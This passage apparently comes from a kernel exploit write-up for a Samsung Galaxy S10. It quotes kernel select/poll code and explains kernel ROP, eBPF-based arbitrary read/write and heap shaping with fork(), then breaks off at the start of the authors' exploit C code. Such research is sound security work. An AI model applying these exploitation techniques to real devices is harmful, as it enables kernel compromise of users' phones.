 ```c++
                if (!(bit & all_bits))
                    continue;
                f = fdget(i);
                if (f.file) {
...
                    if (f_op->poll) {
...
                        mask = (*f_op->poll)(f.file, wait);
                    }
                    fdput(f);
                    if ((mask & POLLIN_SET) && (in & bit)) {
                        res_in |= bit;
                        retval++;
...
                    }
...
                }
            }
            if (res_in)
                *rinp = res_in;
            if (res_out)
                *routp = res_out;
            if (res_ex)
                *rexp = res_ex;
            cond_resched();
        }
...
        if (retval || timed_out || signal_pending(current))
            break;
...
        if (!poll_schedule_timeout(&table, TASK_INTERRUPTIBLE,
                       to, slack))
            timed_out = 1;
    }
...
    return retval;
}
```

After getting ROP in kernel, they used eBPF system, because if we can pass arbitrary X1 register value to `___bpf_prog_run()`, we can make arbitrary address read/write and kernel function call by executing a sequence of eBPF instructions.   



### Our Methodology

We also shaped heap like what P0 did, but instead of using binder's fd and user threads, we used `fork()` system call, because it also call `vmalloc` in kernel routine. As we developed this exploit on pure Samsung Galaxy S10 SM-973N, all informations we can get is from `adb bugreport` command.

```c++
...
  
atomic_int *wait_count;

int parent_pipe[2];
int child_pipe[2];
int trig_pipe[2];

void *read_sleep_func(void *arg){
    atomic_fetch_add(wait_count, 1);
    syscall(__NR_read, trig_pipe[0], 0x41414141, 0x13371337, 0x42424242, 0x43434343);

    return NULL;
```